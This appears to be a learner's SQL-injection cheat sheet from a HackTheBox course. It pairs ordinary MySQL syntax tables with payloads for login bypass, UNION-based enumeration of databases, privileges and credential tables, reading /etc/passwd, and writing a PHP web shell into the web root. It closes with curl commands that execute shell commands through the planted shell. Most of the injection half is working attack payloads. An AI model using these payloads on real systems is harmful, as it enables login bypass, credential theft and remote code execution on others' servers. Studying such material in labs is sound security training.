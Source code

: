 # SQL Injection Notes

## CheatSheet

### General 	
|Command 	|Description|
|:----|:----|
|mysql -u root -h docker.hackthebox.eu -P 3306 -p 	|login to mysql database|
|SHOW DATABASES| 	List available databases|
|USE users 	|Switch to database|
### Tables 	
|Command 	|Description|
|:----|:----|
|CREATE TABLE logins (id INT, ...) 	|Add a new table|
|SHOW TABLES 	|List available tables in current database|
|DESCRIBE logins 	|Show table properties and columns|
|INSERT INTO table_name VALUES (value_1,..) 	|Add values to table|
|INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) 	|Add values to specific columns in a table|
|UPDATE table_name SET column1=newvalue1, ... WHERE <condition> 	|Update table values|
### Columns 	
|Command 	|Description|
|:----|:----|
|SELECT * FROM table_name |	Show all columns in a table|
|SELECT column1, column2 FROM table_name 	|Show specific columns in a table|
|DROP TABLE logins| 	Delete a table|
|ALTER TABLE logins ADD newColumn INT |	Add new column|
|ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn |	Rename column|
|ALTER TABLE logins MODIFY oldColumn DATE |	Change column datatype|
|ALTER TABLE logins DROP oldColumn 	|Delete column|
### Output 	
|Command 	|Description|
|:----|:----|
|SELECT * FROM logins ORDER BY column_1 |Sort by column|
|SELECT * FROM logins ORDER BY column_1 DESC 	|Sort by column in descending order|
|SELECT * FROM logins ORDER BY column_1 DESC, id ASC |	Sort by two-columns|
|SELECT * FROM logins LIMIT 2 	|Only show first two results|
|SELECT * FROM logins LIMIT 1, 2 	|Only show first two results starting from index 2|
|SELECT * FROM table_name WHERE <condition> 	|List results that meet a condition|
|SELECT * FROM logins WHERE username LIKE 'admin%' |	List results where the name is similar to a given string|

### MySQL operator precendence
- Division (/), Multiplication (*), and Modulus (%)
- Addition (+) and Subtraction (-)
- Comparison (=, >, <, <=, >=, !=, LIKE)
- NOT (!)
- AND (&&)
- OR (||)

### SQL Injection
### Auth Bypass 	
|Payload 	|Description|
|:----|:----|
|admin' or '1'='1 	|Basic Auth Bypass|
|admin')-- - 	|Basic Auth Bypass With comments|
### Auth Bypass Payloads 	
### Union Injection 	
|Payload 	|Description|
|:----|:----|
|' order by 1-- - 	|Detect number of columns using order by|
|cn' UNION select 1,2,3-- - |	Detect number of columns using Union injection|
|cn' UNION select 1,@@version,3,4-- - 	|Basic Union injection|
|UNION select username, 2, 3, 4 from passwords-- - 	|Union injection for 4 columns|
### DB Enumeration 	
|Payload 	|Description|
|:----|:----|
|SELECT @@version |Fingerprint MySQL with query output|
|SELECT SLEEP(5) 	|Fingerprint MySQL with no output|
|cn' UNION select 1,database(),2,3-- - 	|Current database name|
|cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - |	List all databases|
|cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - |	List all tables in a specific database|
|cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	|List all columns in a specific table|
|cn' UNION select 1, username, password, 4 from dev.credentials-- - 	|Dump data from a table in another database|
### Privileges 	
|Payload 	|Description|
|:----|:----|
|cn' UNION SELECT 1, user(), 3, 4-- - 	|Find current user|
|cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	|Find if user has admin privileges|
|cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- - 	|Find if all user privileges|
|cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	|Find which directories can be accessed through MySQL|
### File Injection 	
|Payload 	|Description|
|:----|:----|
|cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	|Read local file|
|select 'file written successfully!' into outfile '/var/www/html/proof.txt' |	Write a string to a local file|
|cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	|Write a web shell into the base web directory|


Other misc steps

```
admin' OR '1' = '1' -- -
' UNION SELECT 1,2,3,4,5 -- -
' UNION SELECT 1,user(),3,4,5 -- -
' UNION SELECT 1, grantee, privilege_type, is_grantable, 5 FROM information_schema.user_privileges -- -
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -
```

writing webshell

```
' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
curl -w "\n" -s http://STMIP:STMPO/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
curl -w "\n" -s http://159.65.63.151:31872/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
```
